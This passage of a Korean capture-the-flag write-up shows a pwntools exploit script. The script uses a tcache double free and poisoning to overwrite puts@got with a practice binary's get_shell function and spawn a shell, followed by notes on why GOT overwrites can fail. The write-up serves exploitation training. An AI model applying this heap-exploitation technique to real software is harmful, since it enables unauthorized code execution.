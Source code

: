 ```


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> b'aaaaaaaa'
# tc_idx = 1
# chunk : ptr[0]
modify(0, 0x10, b'a'*0x9)


# tcache[0x20] : ptr[0] -> ptr[0] + 0x10
# tc_idx = 2
# chunk : ptr[0]
delete(0)


# tcache[0x20] : ptr[0] -> puts@got
# tc_idx = 1
# chunk : ptr[1]
puts_got = elf.got['puts']
create(0x20, p64(puts_got))


# tcache[0x20] : puts@got
# tc_idx = 0
# chunk : ptr[2]
create(0x20, b'a')

# 여기서 tcache를 통해 가져오지 않게 됨
# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))

p.interactive()
```

### 참고

이번 문제에서는 이 경우는 아니지만, 일반적으로 `GOT overwrite`에 성공하였으나 공격이 실패하는 경우는 아래와 같다.

1. 함수 호출 시 `인자`가 올바르지 않은 경우.

예를 들어, `printf("%s", &a)`의 `printf@got`를 `system()`으로 덮은 경우, `system("%s")`가 실행되어 공격에 실패한다.

2. `stack` 정렬이 되어 있지 않아, `xmm`오류가 발생하는 경우

일반적으로, 함수의 시작점으로 `got`를 덮은 경우 오류가 발생하지 않는다. 다만 함수의 **중간**으로 이동하는 경우 해당 오류가 발생할 수 있다.
